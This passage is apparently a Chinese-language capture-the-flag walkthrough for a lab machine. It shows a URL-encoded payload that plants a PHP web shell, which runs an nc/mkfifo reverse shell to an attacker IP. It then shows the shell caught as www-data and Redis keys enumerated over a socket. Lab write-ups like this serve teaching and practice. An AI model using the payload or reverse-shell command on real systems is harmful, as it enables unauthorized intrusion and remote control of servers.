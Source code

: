 我们向攻击者机器发送一个反向 shell 。

```
id=/var/www/microblog/hyper/uploads/shell.php&txt=<%3fphp+echo+shell_exec("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.16.18+4444+>/tmp/f")%3b%3f>
```

<figure><img src="../../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

访问shell.php以执行shell.php

```
┌──(root㉿kali)-[~]
└─# nc -lnvp 4444                                                      
listening on [any] 4444 ...
connect to [10.10.16.18] from (UNKNOWN) [10.10.11.213] 49978
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

如果我们运行 pspy 并看到一个有趣的 redis 进程。

```
$ ps -aux | grep redis
redis        601  0.1  0.3  65164 15232 ?        Ssl  14:30   0:17 /usr/bin/redis-server 127.0.0.1:0
```

对于用户，我们必须使用socks配置文件连接到redis-cli

```
www-data@format:/home/cooper$ redis-cli -s /run/redis/redis.sock 
redis /run/redis/redis.sock> KEYS *
1) "cooper.dooper:sites"
2) "cooper.dooper"
redis /run/redis/redis.sock> TYPE cooper.dooper
hash
```
